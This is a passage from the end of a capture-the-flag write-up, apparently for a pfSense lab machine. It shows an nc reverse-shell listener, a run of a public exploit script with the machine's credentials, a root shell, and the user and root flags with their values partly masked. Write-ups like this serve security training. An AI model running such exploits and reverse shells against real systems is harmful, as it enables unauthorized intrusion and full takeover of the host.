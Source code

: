 After copying it, we need to setup a `nc` listener.

```bash
$ rlwrap nc -lvnp 1337 
listening on [any] 1337 ...
```

And then we run the exploit which will spawn a reverse shell back to our listener.

```bash
$ python3 43560.py --rhost 10.10.10.60 --lhost 10.10.XX.XX --lport 1337 --username rohit --password pfsense 
CSRF token obtained
Running exploit...
Exploit completed
```

On our listener, we receive a shell as `root`!

```bash
$ rlwrap nc -lvnp 1337  
listening on [any] 1337 ...
connect to [10.10.XX.XX] from (UNKNOWN) [10.10.10.60] 42989
sh: can't access tty; job control turned off
# id
uid=0(root) gid=0(wheel) groups=0(wheel)
```

# user.txt

The user flag is located in the home directory of `rohit`.

```bash
# cat /home/rohit/user.txt
8721XXXXXXXXXXXXXXXXXXXXXXXXXXXX
```

# root.txt

The root flag is located in the home directory of `root`, as usual.

```bash
# cat /root/root.txt
d08cXXXXXXXXXXXXXXXXXXXXXXXXXXXX
```


### Rooted ! Thank you for reading and look forward for more writeups and articles !